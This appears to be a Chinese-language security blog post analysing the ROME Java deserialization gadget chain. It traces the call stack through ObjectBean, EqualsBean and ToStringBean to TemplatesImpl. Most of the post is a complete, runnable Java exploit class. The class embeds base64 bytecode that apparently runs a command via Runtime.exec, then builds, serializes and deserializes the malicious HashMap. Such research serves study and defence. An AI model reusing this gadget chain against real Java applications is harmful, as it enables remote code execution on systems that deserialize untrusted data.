








## ROME链

ROME 是一个可以兼容多种格式的 feeds 解析器，可以从一种格式转换成另一种格式，也可返回指定格式或 Java 对象。

ROME 兼容了 RSS (0.90, 0.91, 0.92, 0.93, 0.94, 1.0, 2.0), Atom 0.3 以及 Atom 1.0 feeds 格式。

### 调用链

> defineClass:142, TemplatesImpl$TransletClassLoader (com.sun.org.apache.xalan.internal.xsltc.trax)
> defineTransletClasses:346, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
> getTransletInstance:383, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
> newTransformer:418, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
> getOutputProperties:439, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
>
> `toString:137, ToStringBean (com.sun.syndication.feed.impl)
> toString:116, ToStringBean (com.sun.syndication.feed.impl)
> toString:120, ObjectBean (com.sun.syndication.feed.impl)
> beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)hashCode:110, ObjectBean (com.sun.syndication.feed.impl)`
> hash:338, HashMap (java.util)

看这个调用栈,后面的那段和fastjson差不多,在`ToStringBean#toString`会调用成员的所有get方法。前面则是通过hashmap来触发`ObjectBean#hashCode`

### ObjectBean

`com.sun.syndication.feed.impl.ObjectBean` 是 Rome 提供的一个封装类型，初始化时提供了一个 Class 类型和一个 Object 对象实例进行封装。



ObjectBean 也是使用委托模式设计的类，其中有三个成员变量，分别是 EqualsBean/ToStringBean/CloneableBean 类，这三个类为 ObjectBean 提供了 `equals`、`toString`、`clone` 以及 `hashCode` 方法。



### 流程分析

提一点调试的时候注意关闭debug自动调用的toString方法


来看一下中间这段是如何进行一个调用的



ToStringBean中的`_obj`和`_beanClass`都是我们可控的,这里的toString()内部会从stack中取值,如果为空的话则将我们的`_obj`对象的`classname`作为参数传给下一个`toString`方法(这里用`BadAttributeValueExpException`来调用`toString`也是可行的)



不过好像这里这个参数没啥用,主要还是因为后面`invoke`需要用到\_obj



看看是如何获取的get方法



这里分别获取getter和setter方法





### payload

```java
package ROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import  com.sun.syndication.feed.impl.ObjectBean;

import javax.xml.transform.Templates;

public class Exp {


    public static class StaticBlock  { }

    public static Object generatePayload() throws Exception {
        //字节码
        byte[] code = Base64.getDecoder().decode("yv66vgAAADMALgoABgAgCgAhACIIACMKACEAJAcAJQcAJgEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAPTFRlbXBsYXRlc0ltcGw7AQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACcBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABjxpbml0PgEAAygpVgEAB3J1bnRpbWUBABNMamF2YS9sYW5nL1J1bnRpbWU7BwAoAQAKU291cmNlRmlsZQEAElRlbXBsYXRlc0ltcGwuamF2YQwAGQAaBwApDAAqACsBAARjYWxjDAAsAC0BAA1UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvaW8vSU9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAALAAsAAAAgAAMAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAEAARAAIAEgAAAAQAAQATAAEABwAUAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAAOAAsAAAAqAAQAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAFQAWAAIAAAABABcAGAADABIAAAAEAAEAEwABABkAGgACAAkAAABQAAIAAgAAABAqtwABuAACTCsSA7YABFexAAAAAgAKAAAAEgAEAAAAEQAEABIACAATAA8AFAALAAAAFgACAAAAEAAMAA0AAAAIAAgAGwAcAAEAEgAAAAQAAQAdAAEAHgAAAAIAHw==");
        //ObjectBean    {   _equalsBean:EqualsBean
        //EqualsBean    {   _obj:toStringBean,
        //toStringBean  {   _obj:Templates }
        //反射设置 Field
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes",new byte[][]{code});
        setFieldValue(templates, "_name", "Yasax1");
        setFieldValue(templates,"_tfactory", new TransformerFactoryImpl());

       ObjectBean delegate = new ObjectBean(Templates.class, templates);    
        ObjectBean root = new ObjectBean(Object.class,"Yasax1");

        HashMap<Object, Object> map = new HashMap<>();
        map.put(root, "Yasax1");
        map.put("Yasax1", "Yasax1");

        // put 到 map 之后再反射写进去，避免触发漏洞
        Field field = ObjectBean.class.getDeclaredField("_equalsBean");
        field.setAccessible(true);
        field.set(root, new EqualsBean(Object.class, delegate));
        return map;
    }
    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
    public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

# 参考

https://su18.org/post/ysoserial-su18-5/#tostringbean

https://c014.cn/blog/java/ROME/ROME%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html#rome-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90